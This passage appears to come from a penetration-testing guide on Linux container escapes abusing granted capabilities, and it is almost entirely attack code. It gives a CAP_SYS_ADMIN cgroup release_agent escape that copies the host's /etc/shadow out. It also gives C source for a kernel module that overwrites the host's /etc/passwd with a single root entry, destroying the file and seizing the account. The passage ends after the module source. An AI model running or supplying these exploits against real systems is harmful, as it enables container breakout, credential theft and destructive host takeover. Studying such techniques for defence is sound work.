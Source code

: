 ### Capabilities-Based Escapes

When specific Linux capabilities are granted:

#### CAP_SYS_ADMIN Escape

```bash
# Check for CAP_SYS_ADMIN
capsh --print | grep sys_admin

# If present, use the cgroup release_agent technique shown earlier
# Or use the device mounting technique:

mkdir /tmp/exploit
mount -t cgroup -o devices devices /tmp/exploit
cd /tmp/exploit
mkdir x
echo 1 > x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > release_agent

cat > /cmd <<'EOF'
#!/bin/sh
cat /etc/shadow > /tmp/shadow
EOF
chmod +x /cmd

# Trigger exploit
sh -c "echo 0 > /tmp/exploit/x/cgroup.procs"
cat /tmp/shadow
```

#### CAP_SYS_MODULE Escape

```bash
# Check for CAP_SYS_MODULE
capsh --print | grep sys_module

# If present, create a kernel module
cat > /tmp/exploit.c << 'EOF'
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Attacker");
MODULE_DESCRIPTION("Container Escape");
MODULE_VERSION("1.0");

static int __init exploit_init(void) {
    char *argv[] = {"/bin/bash", "-c", "echo root:hacked:0:0:root:/root:/bin/bash > /etc/passwd", NULL};
    char *envp[] = {"PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL};
    
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    return 0;
}

static void __exit exploit_exit(void) {
    printk(KERN_INFO "Module unloaded\n");
}

module_init(exploit_init);
module_exit(exploit_exit);
EOF

```